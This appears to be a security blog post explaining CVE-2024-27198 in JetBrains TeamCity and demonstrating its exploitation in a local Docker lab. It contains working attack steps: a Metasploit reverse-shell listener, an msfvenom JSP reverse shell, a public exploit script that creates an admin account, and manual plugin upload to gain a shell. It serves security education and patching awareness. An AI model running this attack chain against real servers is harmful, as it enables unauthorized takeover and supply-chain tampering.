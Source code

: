 ```yaml
---
title: 'TeamCity Authentication Bypass Vulnerability - CVE-2024-27198'
date: '2024-3-10'
category:
  - 'security'
tags:
  - 'cve'
  - 'teamcity'
  - 'exploit'
  - 'jetbrains'
summary: Learn how to exploit CVE-2024-27198, a critical authentication bypass vulnerability found in JetBrains TeamCity's web component.
coverImage: '/static/images/teamcity.jpg'
---
```

# Understanding CVE-2024-27198: A Critical Authentication Bypass Vulnerability

## Introduction

[CVE-2024-27198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27198) is a severe security flaw with a CVSSv3 score of 9.8, indicating its critical nature. This vulnerability is present in the web component of JetBrains TeamCity and is caused by an alternate path issue, which can be exploited to bypass authentication mechanisms.

## Detailed Exploit Analysis

The vulnerability stems from a weakness in the `BaseController` class within the `web-openapi.jar` library of TeamCity. When an API endpoint receives a request appended with `.jsp`, the `BaseController` class erroneously allows the request to bypass the standard authentication process. This flaw can be exploited by an attacker to gain unauthorized administrative access to the TeamCity server. [[Source](https://www.wiz.io/blog/jetbrains-teamcity-authentication-bypass-vulnerabilities-cve-2024-27198-cve-2024-27199)]

### The Alternate Path Issue

An alternate path issue occurs when software provides an unintended route to a goal that should be protected by authentication. In the case of CVE-2024-27198, the alternate path allows attackers to manipulate the URL to access authenticated endpoints directly, bypassing the login mechanism and gaining full control over the server.

### The Impact on TeamCity

Exploiting CVE-2024-27198 grants attackers complete control over all TeamCity projects, builds, agents, and artifacts. This level of access not only compromises the integrity of the server but also opens the door to more extensive supply chain attacks, where the attacker could insert malicious code into software builds.

## Setting Up and Executing the Exploit on Kali Linux

To demonstrate the exploit, one can set up a vulnerable TeamCity environment using Docker on Kali Linux:

```bash
# Pull a vulnerable TeamCity Server docker image (version: 2023.11.3)
docker pull jetbrains/teamcity-server:2023.11.3

# Run the docker container
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```
Navigate to http://localhost:8111 and complete the setup steps to finish server setup.

#### Prepare the listener
In a separate terminal window open a listener:
```bash
# Open a listener in metasploit 
msfconsole -q -x "use multi/handler; set payload java/jsp_shell_reverse_tcp; set lhost <yourip>; set lport 8088; exploit"
```
#### Execute! Execute! Execute!
After the server and listener are running, the exploit can be executed using the provided Python script:

```bash
# Clone the exploit repository
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE
cd CVE-2024-27198-RCE

# Create a jsp shell, I like to use https://www.revshells.com to do basic and quick executions like this. 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=8088 -f raw -o shell.jsp

# Execute the exploit scriptcd ..
python CVE-2024-27198-RCE.py -t http://localhost:8111 -u newadmn -p newpassword -f shell.jsp
```
This script will create a new administrative user, effectively bypassing the authentication and exploiting the vulnerability. In addition it will attempt to perform RCE. 

> NOTE: At time of writing, automated RCE is still being worked out. Stephen Fewer is working on a metapsloit module for this and you can get more details about his progress at https://github.com/rapid7/metasploit-framework/pull/18922. `W01fh4cker` has expressed concerns in this PR around issues uploading and activating plugins through this type of automation.


## If RCE Failure occurs
If RCE fails, as it does at time of writing, look in the directory you executed the above command from and you will see a `.jar` and a `.zip` file. Navigate to the teamcity server plugins panel at http://localhost:8111/admin/admin.html?item=plugins.

Click on `+ Upload plugin zip` and choose the zip file that was generated by the script. Make sure to activate the plugin. Copy the plugin name (as it will be random) and navigate to `http://localhost:8111/plugins/<plugin-name>/<plugin-name>.jsp`. 

Take a look at the terminal window that is running msfconsole listner and you should have connection to a dumbshell on the TeamCity server. 👍 

## Conclusion

CVE-2024-27198 is a critical vulnerability that requires immediate attention from administrators of TeamCity On-Premises installations. The alternate path issue at the heart of this vulnerability highlights the importance of thorough security practices in software development and the necessity of regular updates and patches.

